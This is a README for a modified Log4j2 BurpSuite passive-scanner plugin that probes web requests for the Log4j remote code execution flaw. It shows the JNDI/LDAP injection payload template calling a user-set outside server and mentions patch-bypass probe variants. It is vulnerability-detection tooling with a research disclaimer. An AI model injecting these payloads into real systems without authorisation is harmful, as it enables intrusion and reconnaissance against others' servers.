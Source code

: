 # Log4j2Scan_Modify

修改自：[Log4jScan](https://github.com/whwlsfb/Log4j2Scan)

使用的时候修改Log4j2Scanner.java的31行LDAP的服务器地址，如果存在Log4j漏洞
会收到Log4j的主机名。

1. 漏洞验证的时候，对于一个log4j漏洞仅发送一次请求
2. 插件的POC实际是：`anything${jndi:ldap://<ip>:<port>/<vulDomain>}`


> 本工具无攻击性，仅具有漏洞探测功能，且仅供学习研究自查使用，切勿用于非法用途，由使用该工具产生的一切风险均与本人无关！

> dnslog.cn由于请求人数过多，时有无法访问接口的问题，若出现无法扫描的情况时，请尝试通过菜单切换dnslog平台。



Log4j2 远程代码执行漏洞，BurpSuite被动扫描插件。

支持精确提示漏洞参数、漏洞位置，支持多dnslog平台扩展、自动忽略静态文件。

支持两种扫描模式：
- EachFuzz  -  对每个参数进行单独Fuzz，准确度最高。
- Crazy     -  同时对请求中的所有参数进行Fuzz，一个POC将只请求一次，降低网络压力，但是将有几率发生遗漏。

漏洞检测暂只支持以下类型
- Url
- Cookie
- Header
- Body(x-www-form-urlencoded、json、xml、multipart)

# ChangeLog
### 2021/12/15
##### v0.9
1. 加入[GoDnslog](https://github.com/chennqqi/godnslog)的后端支持，感谢 [@54Pany](https://github.com/54Pany) 。
2. 加入Fuzz设置界面。
3. 加入POC设置界面。
4. 加入 Body(json、xml、multipart) fuzz的支持。
5. 优化header请求逻辑，降低请求数量。
### 2021/12/14
##### v0.8.1
1. 绕过dnslog.cn的异常访问过滤。
##### v0.8
1. 添加dnslog设置界面，支持多dnslog平台实时切换。
2. 添加 [RevSuit](https://github.com/Li4n0/revsuit/)-DNS 的后端支持。
### 2021/12/13
##### v0.7
1. 加入 [RevSuit](https://github.com/Li4n0/revsuit/)-RMI 的后端支持。
2. 修复由于域名查询被服务器小写化导致的漏报问题。
### 2021/12/12
##### v0.6
1. 加入静态文件过滤。
2. 加入多POC支持，共十种poc变种，默认启用POC1~4。
3. 加入burpcollaborator的dnslog支持，默认使用dnslog.cn。
### 2021/12/11
##### v0.5
1. 加入Header的fuzz功能。
##### v0.4
1. 加入RC1补丁的绕过poc。

# 效果截图

![](screenshots/backends.png)

![](screenshots/ceye_backend.png)

![](screenshots/revsuit_rmi_backend.png)

![](screenshots/revsuit_dns_backend.png)

![](screenshots/godnslog_backend.png)

![](screenshots/poc_setting.png)

![](screenshots/fuzz_setting.png)

![](screenshots/detected.png)


# 鸣谢
插件中部分代码借鉴于以下项目

https://github.com/pmiaowu/BurpShiroPassiveScan/

